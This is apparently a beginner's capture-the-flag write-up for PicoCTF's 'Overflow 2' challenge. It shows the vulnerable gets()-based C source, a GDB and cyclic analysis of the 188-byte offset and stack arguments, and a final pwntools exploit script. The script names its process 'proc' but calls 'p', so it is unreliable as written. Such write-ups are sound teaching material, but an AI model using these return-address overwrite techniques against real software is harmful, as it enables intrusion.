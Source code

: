 [Back](PicoFrontPage.md)

# Overflow 2

### Tools
* GEF-GDB
* Pwntools - Python3
* Some Python tools
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments
* Calls `gets()` again

I do recommend using a disassembler and debugger to figure out and visualize these as a little challenge though. 

### Analysis

#### Static

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->
![Image of GEF](../Images/PicoCTF2019/disasvulnoverflow2.jpg)

So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->
![Image of Stack](../Images/PicoCTF2019/StackOverflow2.jpg)

Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`
Convert it to bytes through:
```
python
0xbc
```
And it should return 188 bytes

#### Dynamic

Let's confirm if what we assumed is right through dynamic analysis.
Use the cyclic tool to get a string to feed to the program: `cyclic 200`

Run GDB for the program: `gdb ./vuln` and then `run`

Feed the string to the input and then analyze!

<!-- OverflowedOverflow2 -->
![Image of overflowed](../Images/PicoCTF2019/OverflowedOverflow2.jpg)

We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->
![Image of args](../Images/PicoCTF2019/Overflow2args.jpg)

This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->
![Image of argsdisassembler](../Images/PicoCTF2019/Overflow2argsdisassembler.jpg)
<!-- Overflow2argsdisassembler2 -->
![Image of argsdisassembler2](../Images/PicoCTF2019/Overflow2argsdisassembler2.jpg)

We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.
To help you visualize:

<!-- StackOverflow2WithArgs -->
![Image of StackOverflow2WithArgs](../Images/PicoCTF2019/StackOverflow2WithArgs.jpg)

* *"What is something?"*
Truth is, I don't know, I'm just a beginner like you guys.

Now, do the classic, find out the `flag()` address and let's get scripting.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln')

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

p.recvuntil(b'Please enter your string:')

p.sendline(payload)

p.interactive()
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)
